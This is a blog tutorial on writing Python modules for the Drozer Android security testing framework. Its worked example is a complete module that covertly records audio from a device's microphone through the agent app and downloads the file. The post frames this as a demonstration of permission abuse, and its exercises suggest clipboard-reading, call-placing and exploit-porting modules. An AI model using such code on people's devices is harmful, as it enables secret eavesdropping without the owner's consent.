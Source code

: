 ```yaml
---
date: "2018-04-23T20:17:13+05:30"
title: "Writing Drozer Modules"
categories:
  - Security
  - CSE
tags:
  - Drozer
  - android
draft: false
---
```


This post is a result of my experimentation with Drozer. Drozer is a security testing framework for Android, developed by MWR Labs. According the Drozer's official [documentation](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other apps. It can do anything that an
installed application can do, such as make use of Android’s Inter-Process Communication (IPC) mechanism and
interact with the underlying operating system.


Drozer modules are written in Python. The module performs operations on an Android device with the help of an agent app installed on the device. The agent app, by default, has permission to use the internet connection only. This permission is required so that the agent can open a ServerSocket on port 31415 (default). The agent will listen for the incoming connections on this port. The console will connect to the agent on this port.


Drozer modules are basically inherited Python classes. The parent class is defined in [drozer.modules.Module](https://github.com/mwrlabs/drozer/blob/develop/src/drozer/modules/base.py). Drozer console provides commands to create a custom module repository which is very useful for the local development of modules.

You can read more about the structure of a Drozer module [here](https://github.com/mwrlabs/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a sample module. I will be implementing a module to record and save the sound from the inbuilt mic of an Android device.

I initialized a new module repository using Drozer console using the following command.
```bash
dz> module repository create custom
Initialised repository at custom.
```

You will see a new directory `custom` in your current directory after executing above command. Navigate to this directory and create a new folder with any name. I prefer to name this folder same as my module name. In this folder, create a file `__init__.py`. Drozer identifies the folder as a module directory if `__init__.py` is present in the directory. Now you can implement your module in this directory.

To begin implementing our module, create a new file `record.py` in the module directory. Drozer has many different utility classes, which we can use to simplify our implementation. To use these utility classes ([mixins](https://github.com/mwrlabs/drozer/wiki/Using-mixins)), our module class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in `modules.common` package in the Drozer source tree. After importing mixins and extending our class, the code will look like this. You can also import any other standard Python module here.
```Python
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
```

Now we will set up the metadata for our module. This information will help Drozer to organize and list our module correctly. We can define name, description, author, date, license, path, permissions, and examples. Most of the available options are self-explanatory. But _path_ and _permissions_ require some explanation.

The _path_ variable defined here is an array which contains the values for the namespace of the module. Drozer supports separate namespaces for each module. We can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module will require for proper functioning. For example, our module will need permission to record audio on the device to work correctly. So we define this permission in the permissions array. The agent app on the device is required to  have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.
```Python
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author = "Yash Agarwal"
date = "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
```

Now we can start implementing the heart of our module, the `execute()` function. This function will be invoked by Drozer when the module is run. Every action that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an understanding of different classes and methods provided by the Android API. As we are writing a module to record sound, we will look into the documentation of [MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html) class. Before reading further, go through the documentation about the use of reflection API in Drozer [here](https://github.com/mwrlabs/drozer/wiki/Using-Reflection).

The `execute()` function is given below.
```Python
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
```

I followed the sample use case given on [this](https://developer.android.com/reference/android/media/MediaRecorder.html) page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our computer. Drozer provides a method, [downloadFile](https://github.com/mwrlabs/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py) exactly for this purpose. This method returns the length of the data downloaded on success and `None` otherwise. We can use this information to test the success or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record the sound on an Android device without the knowledge of the user. Do you smell something fishy here? The whole idea here depends on that particular `android.permission.RECORD_AUDIO` permission, that our agent app had. This allowed our module to record without _user consent_ (the user actually gave her consent unknowingly, while installing agent app). Many apps nowadays ask for arbitrarily random permissions. Those permissions might not be related to the functionality of the app in any way, but because there is no method to install apps without granting these permissions, the users grant all permissions to these apps. That can be exploited very easily. This tutorial tried to show one of such exploitations.

Here are some exercises that you should try if you want to learn more about Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is possible to do this programmatically. If you implement this successfully, do let me know in comments section.)


Thanks for reading. Cheers :)
